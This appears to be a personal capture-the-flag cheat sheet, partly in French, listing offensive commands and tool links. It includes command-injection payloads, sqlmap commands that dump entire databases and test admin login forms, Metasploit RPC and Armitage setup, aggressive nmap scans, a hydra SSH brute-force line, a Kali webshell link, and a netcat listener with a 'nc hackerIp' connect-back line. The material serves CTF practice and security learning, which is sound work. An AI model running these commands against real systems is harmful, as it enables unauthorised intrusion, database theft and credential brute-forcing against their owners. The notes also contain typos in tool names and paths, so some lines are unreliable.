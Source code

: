 # ctf

wht hash ---- hash analyser


https://hashes.com/en/decrypt/hash



classic cyfer


https://dencode.com/en/


https://www.dcode.fr/monoalphabetic-substitution
********************


morse code from audio 


https://morsecode.world/international/decoder/audio-decoder-adaptive.html


code injection

"ls" && @.  change " by (`) altgr 7 
********
burp 
@.|ls||



https://cybertalents.com/challenges/web/big-number?fbclid=IwAR14gKbg32A4IwFcdsxVer1DNVJq7o4gOgiVOTPOw08H0dGGfarteYCMmsI



rapid7


${system('ls')}


run rpc/
msfrpcd -P mypassword -U myuser -t Basic -n -p 55553

then run armitage/
armitage

snoopy


locate filename



image:


file filename


strings 


binwolk filename






whatweb ip
joomscan
wpsscan


exploit Joomla! 3.7.0


cat 
vi :q!
vi :wq!

cp usr/bi/a b 


sqlmap -u url --dbs


sqlmap - u url --dbs blog --tables


sqlmap -u url --dbs blog --tables users --columns

sqlmap -u url -D database -T table --dump


sqlmap -u url -D database --dump-all --batch


sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart -T users --dump-all -batch  -v 3



sqlmap -u url --dbs --batch


sqlmap -u http://site-to-test.com/admin/index.php –data=”user=admin&password=admin” -p user


–data = POST data


sqlmap -r file.txt -p username


dirb url

netcat -lnvp 9191 


nc hackerIp 9191



https://resources.infosecinstitute.com/topic/important-sqlmap-commands/


Crowler:
sqlmap -u http://testphp.vulnweb.com/ -crawl=3


cp file newName ========= le nouveau local c'est ou tu est positionner 


https://www.kali.org/tools/webshells/



NMAP


nmap -sV -O 192.168.100.101  ---> service version  - operating sys


nmap -T4 -A -v 192.168.100.101   -->Intense scan


nmap -sS -sU -T4 -A -v    -->Intense scan plus UDP


nmap -T4 -A -v -Pn   --->Intense scan, no ping


nmap -sn    ---> Ping scan


nmap -T4 -F   -->quiq scan


nmap -sV -T4 -O -F --version-light   --> quiq scan plus


nmap -sn --traceroute -->quiq traceroute


nmap -sS -sU -T4 -A -v -PE -PP -PS80,443 -PA3389 -PU40125 -PY -g 53 --script "default or (discovery and safe)"   -->slow comprehensive scan



BRUTFORCE 


hydra -l root -p rockyou.txt -u  -s 22  192.168.160.181 ssh 


https://github.com/jeanphorn/wordlist/blob/master/usernames.txt


cryptography


https://gchq.github.io/CyberChef/


http://www.jsfuck.com/#


https://morsecode.world/international/translator.html


ls -lh /usr/share/wordlists/



https://www.kali.org/tools/wordlists/
